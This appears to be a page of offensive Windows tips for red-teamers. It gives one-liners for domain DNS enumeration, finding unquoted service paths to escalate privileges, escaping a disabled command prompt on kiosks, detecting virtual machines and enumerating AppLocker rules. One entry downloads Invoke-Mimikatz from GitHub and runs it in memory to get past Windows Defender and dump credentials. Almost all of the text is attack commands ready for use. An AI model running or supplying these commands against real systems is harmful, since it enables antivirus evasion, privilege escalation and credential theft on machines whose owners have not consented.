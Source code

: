 🔙Query DNS records for enumeration
Get-DnsRecord -RecordType A -ZoneName FQDN -Server <server hostname>
Description: 'Enumeration is 95% of the game. However, launching tons of scans to evaluate the environment is very loud. Why not just ask the DC/DNS server for all DNS records?'

Credit: @Alh4zr3d

Link: Twitter

🔙Unquoted service paths without PowerUp
Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
Description: 'Finding unquoted service paths without PowerUp'

Credit: @Alh4zr3d

Link: Twitter

🔙Bypass a disabled command prompt with /k
# Win+R (To bring up Run Box)
cmd.exe /k "whoami"
Description: 'This command prompt has been disabled by your administrator...' Can usually be seen in environments such as kiosks PCs, a quick hacky work around is to use /k via the windows run box. This will carry out the command and then show the restriction message, allowing for command execution.

Credit: Martin Sohn Christensen

Link: Blog

🔙Stop windows defender deleting mimikatz.exe
(new-object net.webclient).downloadstring('https://raw.githubusercontent[.]com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')|IEX;inv
Description: 'Are you tired of Windows Defender deleting mimikatz.exe? Try this instead.'

Credit: @GuhnooPlusLinux

Link: Twitter

🔙Check if you are in a virtual machine
reg query HKLM\SYSTEM /s | findstr /S "VirtualBox VBOX VMWare"
Description: 'Want to know if you are in a Virtual Machine? Query the registry Keys and find out!!! If any results show up then you are in a Virtual Machine.'

Credit: @dmcxblue

Link: Twitter

🔙Enumerate AppLocker rules
(Get-AppLockerPolicy -Local).RuleCollections

Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
Description: 'AppLocker can be a pain. Enumerate to see how painful'

Credit: @Alh4zr3d

